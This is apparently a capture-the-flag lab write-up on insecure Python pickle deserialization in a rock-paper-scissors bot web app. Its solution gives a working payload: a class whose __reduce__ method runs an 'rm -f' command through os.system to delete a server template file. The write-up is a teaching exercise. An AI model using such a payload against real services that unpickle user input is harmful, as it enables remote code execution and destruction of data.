 ```yaml
---
title: "Dangerous Pickle loading"
layout: page
---
```


- Web Security
- Insecure Deserilaization
- Python

Writeup by `Sasszem`

# Description and resources
## Mission brief
Here is an overly simplified example of insecure deserialization: an awesome web application is given that has a single purpose: it plays rock-paper-scissors games with bots.
Let us show you why is it a bad idea to blindly deserialize user-submitted input. This is a (hopefully) uncommon, but devastating vulnerability.

## Instructions
You can fight against the built-in AI using existing bots or you can configure your own. These bots could be complex and well-trained AIs in real life, but these simple bots only contain few integers and they'll determine the weight of different choices.

Feel free to fine-tune the weights (but don't touch anything else) and if you're ready please upload your solution. Your bot object will be serialized, uploaded to the server as `custom.p` (you can find it in the `Downloads` section), and finally deserialized by the web application.

In case you didn't already know, deserialization could be really dangerous since you basically execute the serialized code. This means deserializing user-submitted objects basically equals Remote Code Execution.

I have prepared a simple exploit that should result in crashing the whole application by deleting an HTML template.

In Python, the `pickle` module lets you serialize and deserialize data.

## Your task
Here is a snippet from the backend:

```python
pickle.load(open("bots/" + player_bot + ".p", "rb"))
```

Your task is to delete a template file located at /srv/webservice/templates/match.html.

## Recommended readings
[Exploiting Python pickles](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

---

# Solution

It was rather easy. I googled "pickle rce", and found [this template](https://gist.github.com/mgeeky/cbc7017986b2ec3e247aab0b01a9edcd). I re-used that class and modded it to do the deletion.

Then I started the exercise (time matters too, I prepared all I could), and a download for a custom bot (.py file) showed up:

```python
class Player:
    def __init__(self):
        self.rock = 1		# Probability weight of picking rock
        self.paper = 1		# Probability weight of picking paper
        self.scissors = 1	# Probability weight of picking scissors
```

So I quickly merged it with my prepared class:
```python

class Player:
    def __init__(self):
        self.rock = 1		# Probability weight of picking rock
        self.paper = 1		# Probability weight of picking paper
        self.scissors = 1	# Probability weight of picking scissors
    def __reduce__(self):
        import os
        return (os.system,("rm -f /srv/webservice/templates/match.html",))

```
Uploaded that, and got the points.

